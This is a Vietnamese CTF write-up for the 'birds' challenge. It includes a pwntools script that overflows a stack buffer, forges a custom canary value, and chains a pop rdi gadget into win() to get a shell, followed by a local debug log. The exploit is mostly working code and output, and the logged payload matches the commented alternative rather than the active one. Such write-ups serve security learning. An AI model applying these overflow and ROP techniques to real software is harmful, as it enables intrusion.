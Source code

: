 Địa chỉ hàm `win()` **0x00000000004011C4**

Địa chỉ thực hiện tạo shell `/bin/sh` trong `win()`: **0x00000000004011DC**

# Script

```python
from pwn import *

p = process('./birds')
#p = remote("tjc.tf", 31625)

win_addr =  0x00000000004011c4 # Kiểm tra trong IDA hoặc dùng tool trên linux như nm, objdump,...
win_addr_no_check = 0x00000000004011DC
pop_rdi = 0x00000000004011c0 # pop rdi ; nop ; pop rbp ; ret

# Checksec khong thay canary duoc bat => custom canary check trong IDA

# De vuot qua check dau thi can lam tran bien v4, khi tran sang v5 thi cho no gia tri la 0xdeadbeef

payload = b'A'*76 # bof
payload += p32(0xdeadbeef) # Can su dung 4 byte de ghi chinh xac gia tri cua v5 nen ta se dung p32()
						   # Neu dung p64() se ghi 8 byte => ko vuot qua check
payload += b'B'*8 # pad RBP

### Cách 1 ###
# Ham win can dua a1 vao, checksec khong co PIE => tim pop rdi bang ROPgadget sau do dua a1(=0xA1B2C3D4) vao

payload += p64(pop_rdi)
payload += p64(0xA1B2C3D4) # RDI dung p64 de truyen a1 vao do rdi la thanh ghi 64bit
payload += p64(0) # RBP, khong su dung den pad them vao do cac gadget la pop rdi ; nop ; pop rbp ; ret
payload += p64(win_addr) # Nhay vao win

### Cách 2 ###
# payload += p64(win_addr_no_check) # Nhảy thẳng vào vùng nhớ thực hiện if

#input()
p.sendlineafter(b'I made a canary to stop buffer overflows. Prove me wrong!\n', payload)
#input()

p.interactive() # Vào interactive thì chạy lệnh để kiểm tra thôi
```

`nc` đến server ko được nên chạy local

```bash
$ python solve.py DEBUG
[+] Starting local process './birds' argv=[b'./birds'] : pid 624
[DEBUG] Received 0x3a bytes:
    b'I made a canary to stop buffer overflows. Prove me wrong!\n'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  dc 11 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x36 bytes:
```
